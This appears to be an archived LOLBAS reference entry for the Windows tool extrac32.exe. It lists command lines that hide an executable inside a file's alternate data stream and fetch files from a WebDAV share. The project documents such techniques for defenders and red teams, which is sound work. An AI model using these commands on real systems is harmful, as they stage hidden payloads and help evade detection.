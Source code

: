 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Extrac32.exe

* Functions: Add ADS, Download, Copy

```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe    

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe    

extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt   

extrac32 /C c:\sourcefile.txt c:destFile.txt
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* egre55 - @egre55

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\extrac32.exe
c:\windows\sysWOW64\extrac32.exe
```

Notes:
For help menu
```
extract32 /? | more
```


 
